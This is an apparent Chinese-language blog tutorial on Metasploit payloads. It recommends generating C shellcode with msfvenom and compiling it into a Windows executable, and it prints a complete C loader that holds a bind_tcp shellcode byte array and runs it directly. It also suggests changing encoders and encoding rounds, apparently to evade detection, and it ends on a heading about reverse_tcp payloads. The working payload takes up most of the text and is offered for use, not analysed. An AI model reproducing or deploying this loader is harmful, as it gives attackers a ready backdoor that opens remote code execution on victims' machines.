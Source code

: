 **`reverse_http` or `bind_tcp` ...**

自己本地生成的bind_tcp的payload并不能在Windows机子上运行 (提示不是可用的Win32程序:(....)

如果大家也有遇到这种错误的话 推荐用msfvenom生成c的shellcode 然后自己编译为exe后运行:)

说不定还有以外的效果哦～

分享一个bind_tcp的栗子 (自行更改shelcode)

    
    
    #include "windows.h"
    #include "stdio.h"
    
    typedef void (_stdcall *CODE)();    
    
    unsigned char shellcode[] = 
    "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
    "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
    "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
    "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
    "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
    "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
    "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
    "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
    "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
    "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
    "\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
    "\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
    "\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x85\xc0\x75"
    "\x50\x57\x68\xb7\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1"
    "\xff\xd5\x97\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
    "\xd5\x83\xf8\x00\x7e\x2d\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
    "\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
    "\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x07\x01"
    "\xc3\x29\xc6\x75\xe9\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff"
    "\xd5";
    
    void RunShellCode()  
    {  
        ( (void (*)(void))&shellcode )();  
    }  
    
    
    void main()  
    {  
        RunShellCode();  
    }
    

**具体编码方式和编码次数大家可以自行改变:)**

**使用msfvenom --list可以查看所有的payload encoder nops...哦～～**

### 生成Windows reverse_tcp payload
